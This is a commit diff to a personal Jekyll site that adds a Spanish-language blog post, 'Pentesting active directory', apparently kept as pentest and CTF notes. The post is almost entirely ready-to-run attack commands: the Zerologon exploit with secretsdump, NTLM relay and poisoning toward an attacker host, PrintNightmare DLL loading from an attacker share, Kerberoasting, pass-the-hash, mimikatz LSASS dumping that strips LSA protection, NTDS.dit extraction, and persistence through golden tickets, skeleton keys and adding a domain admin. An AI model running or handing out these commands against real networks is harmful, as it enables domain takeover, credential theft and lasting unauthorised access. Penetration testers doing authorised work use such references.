

Before and after one commit to guglia001/guglia001.github.io, a Jekyll site: the page built from _pages/category-archive.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
active directory

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -13,7 +13,7 @@
 
 theme                  : "minimal-mistakes-jekyll"
 remote_theme           : "mmistakes/minimal-mistakes"
-minimal_mistakes_skin    : "neon" # "air", "aqua", "contrast", "dark", "dirt", "neon", "mint", "plum", "sunrise"
+minimal_mistakes_skin    : "dark" # "air", "aqua", "contrast", "dark", "dirt", "neon", "mint", "plum", "sunrise"
 
 # Site Settings
 locale                   : "en-US"
--- /dev/null
+++ b/_posts/2022-01-03-active-directory.md
@@ -0,0 +1,509 @@
+---
+layout: single
+title:  "Pentesting active directory"
+categories: [ctf, sqli, htb]
+---
+
+
+En este post vamos a ver la mayoria de ataques en el directorio activo y escalacion de privilegios de windows <br>
+
+
+
+
+- [Scan Network](#scan-network)
+- [Find ad ip](#find-ad-ip)
+- [Zone transfer](#zone-transfer)
+- [Listar acceso como guest en smb](#listar-acceso-como-guest-en-smb)
+- [Enumerar LDAP](#enumerar-ldap)
+- [Relay / poisoning](#relaypoisoning)
+- [zerologon](#zerologon)
+- [Con credenciales](#con-credenciales)
+    * [Get all users](#get-all-users)
+    * [Enumerar SMB share](#enumerar-smb-shasre)
+    * [Bloodhound](#bloodhound)
+    * [Kerberoasting](#kerberoasting)
+    * [MS14-068](#ms14-068)
+- [Con usuario valido](#con-usuario-valido)
+    * [Password spray](#password-spray)
+    * [ASREPRoast](#asreproast)
+- [Movimientos Laterales](#movimientos-laterales)
+    * [pass the hash](#pass-the-hash)
+    * [overpass the hash / pass the key (PTK)](#overpass-the-hash--pass-the-key-ptk)
+    * [Unconstrained delegation](#unconstrained-delegation)
+    * [Constrained delegation](#constrained-delegation)
+    * [Resource-Based Constrained Delegation](#resource-based-constrained-delegation)
+	* [dcsync](#dcsync)
+    * [get laps passwords](#get-laps-passwords)
+	* [privexchange](#privexchange)
+- [Hash cracking](#hash-cracking)
+- [relay](#relay)
+    * [MS08-068](#ms08-068)
+    * [responder](#responder--i-eth0-disable-smb--http)
+    * [adcs](#adcs)
+- [Domain admin](#domain-admin)
+    * [dump ntds.dit](#dump-ntdsdit)
+- [Persistencia](#persistance)
+- [Acceso como administrador](#acceso-como-administrador)
+    * [Buscar credenciales](#buscar-credenciales)
+    * [LSA as a Protected Process](#lsa-as-a-protected-process)
+    * [Buscar contraseñas en archivo](#buscar-contraseñas-en-archivos)
+    * [Buscar contraseñas guardadas](#buscar-contraseñas-guardadas)
+    * [shadow copies](#shadow-copies)
+    * [token manipulation](#token-manipulation)
+- [Sin acceso](#sin-acceso)
+    * [java rmi](#java-rmi)
+    * [tomcat/jboss manager](#tomcatjboss-manager)
+    * [java serialized port](#java-serialized-port)
+    * [MS14-025](#ms14-025)
+    * [database credentials](#database-credentials)
+- [Usuario sin privilegios](#sin-acceso)
+    * [winpeas.exe](#winpeasexe)
+    * [Juicy Potato / Lovely Potato](#juicy-potato--lovely-potato)
+    * [PrintSpoofer](#printspoofer)
+    * [RoguePotato](#roguepotato)
+    * [SMBGhost CVE-2020-0796](#smbghost-cve-2020-0796)
+    * [CVE-2021-36934 (HiveNightmare/SeriousSAM)](#cve-2021-36934-hivenightmareserioussam)
+- [Mapa Mental](#mapa-mental)
+
+## Scan Network
+
+### cme smb <ip_range> # enumerar smb
+
+### nmap -sP -p <ip> # ping scan
+
+### nmap -PN -sV --top-ports 50 --open <ip> # quick scan
+
+### nmap -PN --script smb-vuln* -p139,445 <ip> # search smb vuln
+
+### nmap -PN -sC -sV <ip> # classic scan
+
+### nmap -PN -sC -sV -p- <ip> # full scan
+
+### nmap -sU -sC -sV <ip> # udp scan
+
+## find AD IP
+
+### nmcli dev show eth0 # show domain name & dns
+
+### nslookup -type=SRV _ldap._tcp.dc._msdcs.//DOMAIN/
+
+## Zone transfer
+
+### dig axfr <domain_name> @<name_server>
+
+## Listar acceso como guest en smb
+
+### enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
+
+### smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
+
+### smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
+
+### cme smb <ip> -u '' -p '' # Enumerar null session
+
+### cme smb <ip> -u 'a' -p '' # Enumerar anonymous access
+
+## Enumerar ldap
+
+### nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
+
+### ldapsearch -x -h <ip> -s base
+
+## Find user list
+
+### enum4linux -U <dc-ip> | grep 'user:'
+
+### crackmapexec smb <ip> -u <user> -p '<password>' --users
+
+
+- nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
+
+## relay/poisoning
+
+### Buscar smb sin firmar
+
+- nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK
+- use exploit/windows/smb/smb_relay
+- cme smb $hosts --gen-relay-list relay.txt
+
+### PetitPotam.py  -d <domain> <listener_ip> <target_ip>
+
+### responder -i eth0
+
+### mitm6 -d <domain>
+
+## zerologon
+
+### python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>
+secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator"
+secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>
+
+- python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>
+
+
+## Con credenciales
+
+### Get all users
+
+- GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
+
+### Enumerar SMB share
+
+- cme smb <ip> -u <user> -p <password> --shares
+
+### bloodhound
+
+- bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
+
+### powerview / pywerview
+
+### kerberoasting
+
+- Get hash
+
+	- GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
+	- Rubeus kerberoast
+
+- Obtener usuarios kerberoasteables
+
+	- Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
+	- MATCH (u:User {hasspn:true}) RETURN u
+	- MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
+
+### MS14-068
+
+- FindSMB2UPTime.py <ip>
+
+	- rpcclient $> lookupnames <name>
+wmic useraccount get name,sid
+auxiliary/admin/kerberos/ms14_068_kerberos_checksum
+	- goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
+
+		- kerberos::ptc "<ticket>"
+
+### dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user
+
+- sc \\DNSServer stop dns
+sc \\DNSServer start dns
+
+### PrintNightmare
+
+- CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'
+
+### enum dns
+
+- dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>
+
+## Con usuario valido
+
+### Password spray
+
+- Get password policy
+
+	- crackmapexec <IP> -u 'user' -p 'password' --pass-pol
+	- enum4linx -u 'username' -p 'password' -P <IP>
+
+- cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password
+- cme smb <dc-ip> -u user.txt -p password.txt # multiple test (carrefull of lock policy)
+
+### ASREPRoast
+
+- Get hash
+
+	- python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>
+	- Rubeus asreproast /format:hashcat
+
+- Get ASREPRoastable users
+
+	- Get-DomainUser -PreauthNotRequired -Properties SamAccountName
+	- MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
+
+## Movimientos Laterales
+
+### pass the hash
+
+- psexec.py -hashes ":<hash>" <user>@<ip>
+- wmiexec.py -hashes ":<hash>" <user>@<ip>
+- atexec.py -hashes ":<hash>" <user>@<ip> "command"
+- evil-winrm -i <ip>/<domain> -u <user> -H <hash>
+- xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
+
+### overpass the hash / pass the key (PTK)
+
+- python getTGT.py <domain>/<user> -hashes :<hashes>
+
+	- export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache
+
+		- python psexec.py <domain>/<user>@<ip> -k -no-pass
+
+- Rubeus asktgt /user:victim /rc4:<rc4value>
+
+	- Rubeus ptt /ticket:<ticket>
+	- Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]
+
+		- Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>
+
+### Unconstrained delegation
+
+- Get tickets
+
+	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
+	- Rubeus dump /service:krbtgt /nowrap
+	- Rubeus dump /luid:0xdeadbeef /nowrap
+
+- Get unconstrained delegation machines
+
+	- Get-NetComputer -Unconstrained
+	- Get-DomainComputer -Unconstrained -Properties DnsHostName
+	- MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
+	- MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
+
+### Constrained delegation
+
+- Get tickets
+
+	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
+	- Rubeus dump /service:krbtgt /nowrap
+	- Rubeus dump /luid:0xdeadbeef /nowrap
+
+- Get constrained delegation machines
+
+	- Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
+	- MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
+	- MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
+
+### Resource-Based Constrained Delegation
+
+### dcsync
+
+- lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
+
+### WSUSpect
+
+- WSUSpendu.ps1 # need compromised WSUS server
+
+### sccm
+
+- CMPivot
+
+### MSSQL Trusted Links
+
+- use exploit/windows/mssql/mssql_linkcrawler
+
+### Printers spooler service abuse
+
+- rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
+
+	- printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>
+
+### AD acl abuse
+
+- aclpwn.py
+
+	- GenericAll on User
+	- GenericAll on Group
+	- GenericAll / GenericWrite / Write on Computer
+	- WriteProperty on Group
+	- Self (Self-Membership) on Group
+	- WriteProperty (Self-Membership)
+	- ForceChangePassword
+	- WriteOwner on Group
+	- GenericWrite on User
+	- WriteDACL + WriteOwner
+
+### GPO Delegation
+
+### get laps passwords
+
+- Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
+- foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
+
+### privexchange
+
+- python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>
+
+	- ntlmrelayx.py -t ldap://<dc_fqdn>--escalate-user <user>
+
+
+### Hash cracking
+
+- LM
+
+	- john --format=lm hash.txt
+	- hashcat -m 3000 -a 3 hash.txt
+
+- NTLM
+
+	- john --format=nt hash.txt
+	- hashcat -m 1000 -a 3 hash.txt
+
+- NTLMv1
+
+	- john --format=netntlm hash.txt
+	- hashcat -m 5500 -a 3 hash.txt
+
+- NTLMv2
+
+	- john --format=netntlmv2 hash.txt
+	- hashcat -m 5600 -a 0 hash.txt rockyou.txt
+
+- Kerberos 5 TGS
+
+	- john spn.txt --format=krb5tgs --wordlist=rockyou.txt
+	- hashcat -m 13100 -a 0 spn.txt rockyou.txt
+
+- Kerberos ASREP
+
+	- hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt
+
+## relay
+
+### MS08-068
+
+- use exploit/windows/smb/smb_relay #windows200 / windows server2008
+
+### responder -I eth0 # disable smb & http
+
+- ntlmrelayx.py -tf targets.txt
+
+### mitm6 -i eth0 -d <domain>
+
+- ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
+- ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
+- ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
+
+	- getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
+
+### adcs
+
+- ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController
+
+	- Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
+
+## Domain admin
+
+### dump ntds.dit
+
+- crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds
+- secretsdump.py '<domain>/<user>:<pass>'@<ip>
+- ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
+
+	- secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
+
+- windows/gather/credentials/domain_hashdump
+
+## Persistance
+
+### net group "domain admins" myuser /add /domain
+
+### Golden ticket
+
+- ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
+
+### Silver Ticket
+
+### DSRM
+
+- PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
+
+### Skeleton Key
+
+- mimikatz "privilege::debug" "misc::skeleton" "exit"
+
+### Custom SSP
+
+- mimikatz "privilege::debug" "misc::memssp" "exit"
+
+	- C:\Windows\System32\kiwissp.log
+
+### ...
+
+## Acceso como administrador
+
+### Buscar credenciales
+
+- procdump.exe -accepteula -ma lsass.exe lsass.dmp
+
+	- mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
+
+- mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
+- post/windows/gather/smart_hashdump
+
+	- hashdump
+
+- cme smb <ip_range> -u <user> -p <password> -M lsassy
+- cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
+
+### LSA as a Protected Process
+
+- PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp
+- mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys
+
+### Buscar contraseñas en archivos
+
+- findstr /si 'password' *.txt *.xml *.docx
+
+### Buscar contraseñas guardadas
+
+- lazagne.exe all
+
+### shadow copies
+
+- diskshadow list shadows all
+
+	- mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
+
+### token manipulation
+
+- .\incognito.exe list_tokens -u
+
+	- .\incognito.exe execute -c "<domain>\<user>" powershell.exe
+
+- use incognito
+
+	- impersonate_token <domain>\\<user>
+
+## Sin acceso
+
+### java rmi
+
+- exploit/multi/misc/java_rmi_server
+
+### tomcat/jboss manager
+
+- auxiliary/scanner/http/tomcat_enum
+exploit/multi/http/tomcat_mgr_deploy
+
+### java serialized port
+
+- ysoserial
+
+### MS14-025
+
+- use scanner/smb/smb_enum_gpp
+- findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
+
+### database credentials
+
+- use admin/mssql/mssql_enum_sql_logins
+
+
+## Usuario sin privilegios
+
+### winpeas.exe
+
+### Juicy Potato / Lovely Potato
+
+### PrintSpoofer
+
+### RoguePotato
+
+### SMBGhost CVE-2020-0796
+
+### CVE-2021-36934 (HiveNightmare/SeriousSAM)
+
+
+
+
+### Mapa mental
+ Mapa mental: ![mapa mental](/assets/articulos/active-directory/mapa.png  )
```
Also changed, not shown: assets/htb/validation/logo.png (added), 1 other file.
